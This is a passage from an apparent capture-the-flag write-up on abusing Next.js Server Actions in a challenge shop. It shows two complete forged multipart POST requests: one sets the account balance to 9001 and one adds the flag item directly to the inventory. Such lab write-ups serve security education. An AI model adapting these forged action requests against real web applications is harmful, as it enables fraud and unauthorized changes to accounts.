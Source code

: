 ```
asdzxc123
------WebKitFormBoundaryQApJRAsTKClOX1Fa--
```

Now, with all the things we've gone through to understand how Server Actions work, we should have at least 3 paths to get the flag.

### Path 1 - Rosebud, kaching and motherlode

We could send a request usually used with bounded actions to arbitrarily set our balance to any desired value, effectively bypassing any intended limitations. With our balance set sufficiently high, we could then simply purchase the EPT Tote Bag that contains the flag, completing the challenge without needing any additional steps.

In the request shown below, we basically call `setMoney.bind(null, 9001)()`.

```
POST /items HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Cookie: token=344e1360bd35ec2f26fcf058950d27d6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 409

------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"5033aa9e8e719350ff01f9a353595d64a7488812","bound":"$@1"}
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:1"

[9001]
------WebKitFormBoundaryQApJRAsTKClOX1Fa--

```

### Path 2 - EPT Tote Bag directly in my bag

Similarily, an even easier way is to just simply add the EPT Tote Bag containing the flag, directly to our inventory.

In the request shown below, we basically call `addItem.bind(null, "EPT Tote Bag")()`.

```
POST /items HTTP/2
Host: ikutoppene-XXXX-shop-6.ept.gg
Cookie: token=344e1360bd35ec2f26fcf058950d27d6
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Length: 421


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_REF_2"


------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:0"

{"id":"240aa4f8f6a6e8c0edfbc1f6b473afaa2164e7b7","bound":"$@1"}
------WebKitFormBoundaryQApJRAsTKClOX1Fa
Content-Disposition: form-data; name="$ACTION_2:1"

["EPT Tote Bag"]
```